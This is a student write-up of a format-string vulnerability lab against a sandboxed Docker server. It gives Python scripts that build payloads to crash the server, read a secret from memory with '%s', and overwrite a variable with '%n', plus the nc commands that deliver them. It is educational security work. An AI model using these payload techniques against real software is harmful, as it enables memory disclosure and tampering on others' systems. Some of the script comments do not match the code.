



# Format-String Vulnerability Lab

# Introduction

In this lab we have to use docker, so one terminal (T1 in the future) will be reserved for the docker to run.

<div align="center">
    <figure>
        
        <figcaption style="font-size: smaller">Figure 1: Terminal 1</figcaption>
    </figure>
</div>

To list the running containers we used the following command, on another new terminal (T2).

```bash
docker ps --format "{{.ID}} {{.Names}}"
```

<div align="center">
    <figure>
        
        <figcaption style="font-size: smaller">Figure 2: Terminal 2</figcaption>
    </figure>
</div>

After this, we ran another command in T2 to start a shell on the container we chose.

<div align="center">
    <figure>
        
        <figcaption style="font-size: smaller">Figure 3: Terminal 2</figcaption>
    </figure>
</div>

With this we have completed the setup necessary for the future tasks.

## Question 1

### Task 1

In this task, our goal was to interact with a vulnerable server running a program with a format-string vulnerability. The server accepts user input and processes it through the myprintf() function, which is inappropriately formatted, leading to exploitable behavior. By constructing a specific input, we were able to cause the program to crash. Crashing the program provides an entry point for testing the vulnerability.


The server program is accessible through a container with IP 10.9.0.5, running on port 9090. To simulate an exploit and verify the vulnerability, we first sent a benign message to confirm the server setup on yet other terminal (T3).

```bash
echo hello | nc 10.9.0.5 9090
```
And on T1 we received:

<div align="center">
    <figure>
        
        <figcaption style="font-size: smaller">Figure 4: Terminal 1</figcaption>
    </figure>
</div>

And after doing CONTROL+C on T3, we see this message in T1:

<div align="center">
    <figure>
        
        <figcaption style="font-size: smaller">Figure 5: Terminal 1</figcaption>
    </figure>
</div>

Now that we tested with a benign message, we then tryed one command that will hopefully crash the program.

The given `build_string.py` file helps us do the attack by creating the `badfile` we will use in the attack.

```python

#!/usr/bin/python3

import sys


# Initialize the content array

N = 1500

content = bytearray(0x0 for i in range(N))


# This line shows how to store a 4-byte integer at offset 0

number  = 0x080b4008
content[0:4]  =  (number).to_bytes(4,byteorder='little')


# This line shows how to store a 4-byte string at offset 4

content[4:8]  =  ("AAAA").encode('latin-1')


# This line shows how to construct a string s with

#   12 of "%.8x", concatenated with a "%n"

s = "%s" * 5


# The line shows how to store the string s at offset 8

fmt  = (s).encode('latin-1')

content[8:8+len(fmt)] = fmt


# Write the content to badfile

with open('badfile', 'wb') as f:

  f.write(content)

```
With the `badfile` created, we then run the actual attack command on T3.

```bash
cat ../attack-code/badfile | nc 10.9.0.5 9090
```

After using this command, we check T1 and see that it didn't print the "Returned properly" message, meaning we successfuly crashed the program.

This attack works because we are trying to get information that is unavailable in the stack, causing the program to crash.

### Task 2

In this task we want to get the server to print out some data from its memory. But, this attack is not very meaningful, because the data will be printed out on the server side (T1), so the attacker cannot see it.

### Task 2.A

The goal is to print out the data on the stack. To start we had to find out how many `%x` we needed to find our data. In this case we decided that our data would be "AAAA" that corresponds in hexadecimal to "41414141".

We first tried with a big number of `%x`, because we want to find out where our data is.

<div align="center">
    <figure>
        
        <figcaption style="font-size: smaller">Figure 6: Print a lot of data from the stack</figcaption>
    </figure>
</div>

We then tried to reduce the number of `%x` to print only the numbers up until our data by trial and error, eventually finding out we needed exactly 64 `%x`.

<div align="center">
    <figure>
        
        <figcaption style="font-size: smaller">Figure 7: Print just until our data from the stack</figcaption>
    </figure>
</div>

### Task 2.B

In the second part of the task we want to print out a secret message, that is stored in the heap area. The address of this secret string can be found in the server printout.

<div align="center">
    <figure>
        
        <figcaption style="font-size: smaller">Figure 8: Secret message address that was given.</figcaption>
    </figure>
</div>

To do this we had to print the content of the address `0x080b4008` that was given and we did that by placing a `%s` on the position 64 of the stack. By changing the `number` variable on the python script to the desired address (secret message), the last print from the server should be the secret message, because our first input would now be the corresponding address.

```python

#!/usr/bin/python3

import sys


# Initialize the content array

N = 1500

content = bytearray(0x0 for i in range(N))


# This line shows how to store a 4-byte integer at offset 0

number  = 0x080b4008
content[0:4]  =  (number).to_bytes(4,byteorder='little')


# This line shows how to store a 4-byte string at offset 4

content[4:8]  =  ("AAAA").encode('latin-1')


# This line shows how to construct a string s with

#   12 of "%.8x", concatenated with a "%n"

s = "%x"*63 + "%s"


# The line shows how to store the string s at offset 8

fmt  = (s).encode('latin-1')

content[8:8+len(fmt)] = fmt


# Write the content to badfile

with open('badfile', 'wb') as f:

  f.write(content)

```

And the result of using the newly compiled `badfile` was that the secret message was printed.

<div align="center">
    <figure>
        
        <figcaption style="font-size: smaller">Figure 9: Secret message printed.</figcaption>
    </figure>
</div>


### Task 3 (excluindo a Task 3.C)

In this task we want to modify the value of the target variable that is defined in the server program.
The original value of target is `0x11223344`.

### Task 3.A

In this first sub-task we want to change the target variable value to any value.

Firstly we started by changing the address in our python code to the target variable's address. We then change part of the code that changed the content of the badfile to make it print the previous caracters in the target variable changing it.


```python

#!/usr/bin/python3

import sys


# Initialize the content array

N = 1500

content = bytearray(0x0 for i in range(N))


# This line shows how to store a 4-byte integer at offset 0

number  = 0x080e5068
content[0:4]  =  (number).to_bytes(4,byteorder='little')


# This line shows how to store a 4-byte string at offset 4

content[4:8]  =  ("AAAA").encode('latin-1')


# This line shows how to construct a string s with

#   12 of "%.8x", concatenated with a "%n"

s = "%x" * 63 + "%n"


# The line shows how to store the string s at offset 8

fmt  = (s).encode('latin-1')

content[8:8+len(fmt)] = fmt


# Write the content to badfile

with open('badfile', 'wb') as f:

  f.write(content)

```

And that worked as seen in Figure 10.

<div align="center">
    <figure>
        
        <figcaption style="font-size: smaller">Figure 10: Target variable changed.</figcaption>
    </figure>
</div>

### Task 3.B

In this sub-task, we need to change the content of the target variable to a specific value 0x5000.

To chane the value of the target variable to this specific number (0x5000), we need, theoricaly, to print 20480 characters before the `%n`

Since our content comes in the 64th position in the stack, this is equivalent to `63 * 8 = 504` characteres that we always need to print so we need to put print more `20480 - 504 = 19976`. This was what makes sense to do.

For us this doesn't works so we have need to discover the number that we need to print before the `%n` basically by (try and error). We also discover that when we put some `%.x` before the expression to change the value of the target variable our content pass to the 62 position.

After this we finally discover how to change the value of the variable to `0x5000` by using this script

```python
#!/usr/bin/python3

import sys

# Initialize the content array

N = 1500

content = bytearray(0x0 for i in range(N))

# This line shows how to store a 4-byte integer at offset 0

number  = 0x080e5068

content[0:4] = (number).to_bytes(4, byteorder="little")

# This line shows how to construct a string s with

#   12 of "%.8x", concatenated with a "%n"

s = "%.20252x" + "%x" * 62 + "%n"

# The line shows how to store the string s at offset 8

fmt  = (s).encode('latin-1')

content[4 : len(fmt)] = fmt

# Write the content to badfile

with open('badfile', 'wb') as f:

  f.write(content)
```

This script is identical to the one done in the previous subtask (3.A) except the expression `%.20252x + %x * 62 + %n` that has a little changes compared to the previous one used.

and that works as seen in Figure 11

<div align="center">
    <figure>
        
        <figcaption style="font-size: smaller">Figure 11: Target variable changed to 0x5000.</figcaption>
    </figure>
</div>